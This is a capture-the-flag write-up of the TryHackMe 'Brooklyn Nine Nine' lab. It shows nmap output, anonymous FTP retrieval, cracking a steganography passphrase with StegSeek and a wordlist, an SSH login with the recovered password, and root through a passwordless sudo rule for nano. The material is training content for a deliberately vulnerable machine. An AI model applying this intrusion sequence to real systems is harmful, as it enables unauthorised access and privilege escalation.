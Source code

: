 ```yaml
---
layout: post
current: post
cover: 'assets/images/brooklynninenine/cover.png'
navigation: True
title: "Brooklyn Nine Nine Write Up"
date: 2021-01-01 00:00:00
tags: [tryhackme, ctf, easy]
class: post-template
subclass: 'post'
author: darryn
---
```

![brooklynninenine](/assets/images/brooklynninenine/cover.png)

### Overview

[Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine) is a easy room on [TryHackMe](https://tryhackme.com) by Fsociety2006. 

### Nmap

I deployed the machine and was given the target IP 10.10.130.161. I started a NMAP scan to check the available ports. 

```highlight
└──╼ $sudo nmap -sC -sV -oN initial 10.10.130.161
[sudo] password for daz: 
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-01 14:26 GMT
Nmap scan report for 10.10.130.161
Host is up (0.070s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.74 seconds
```

3 Ports open:

- 21 - FTP - Anonymous log in allowed with a note
- 22 - SSH - Banner is showing its an Ubuntu machine
- 80 - HTTP - Apache web server version 2.4.29

I also ran a full port scan but no additional ports were found.

### Enumeration

As the FTP service allows anonymous access I started by logging in with the username 'anonymous' and the password 'anonymous'.

```highlight
└──╼ $ftp 10.10.130.161
Connected to 10.10.130.161.
220 (vsFTPd 3.0.3)
Name (10.10.130.161:daz): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.03 secs (4.3601 kB/s)
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> 
```

I downloaded the note_to_jake.txt file but couldn't find anything else. The note reads:
>
>From Amy,
>
>Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
>

The note indicates a weak password being used, I moved on to port 80 and looked at the web page. 

```highlight
<!DOCTYPE html>
<html>
<head>
<meta name="viewport" content="width=device-width, initial-scale=1">
<style>
body, html {
  height: 100%;
  margin: 0;
}

.bg {
  /* The image used */
  background-image: url("brooklyn99.jpg");

  /* Full height */
  height: 100%; 

  /* Center and scale the image nicely */
  background-position: center;
  background-repeat: no-repeat;
  background-size: cover;
}
</style>
</head>
<body>

<div class="bg"></div>

<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
</body>
</html>
```

The page just displays an image of Brooklyn nine nine, however looking at the source provides a comment regarding steganography. 

### Initial Access

I downloaded the image and ran steghide however the I cant extract the data with out a password. I used [StegSeek](https://github.com/RickdeJager/stegseek) and the rockyou.txt word list to crack the password.

```highlight
└──╼ $stegseek brooklyn99.jpg /usr/share/wordlists/rockyou.txt
StegSeek version 0.5
Progress: 0.00% (0 bytes)           

[i] --> Found passphrase: "<REDACTED>"
[i] Original filename: "note.txt"
[i] Extracting to "brooklyn99.jpg.out"
┌─[daz@parrot]─[~/Documents/TryHackMe/Brooklyn99]
└──╼ $cat brooklyn99.jpg.out
Holts Password:
flu<REDACTED>

Enjoy!!
```

Great I now have some credentials. Using the credentials I can now SSH in to the machine.

```highlight
└──╼ $ssh holt@10.10.130.161
holt@10.10.130.161's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ 
holt@brookly_nine_nine:~$ 
```

### Priv Esc

The privilege escalation was really simple, doing a sudo -l, all users can run /bin/nano without a password. Going to [GTFOBins](https://gtfobins.github.io) shows the steps required to abuse this and get root.

```highlight
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

Following the steps, I get a root shell.

```highlight
# id
uid=0(root) gid=0(root) groups=0(root)
# hostname
brookly_nine_nine
# cd /root
# ls
root.txt
#
```
Thanks for reading!

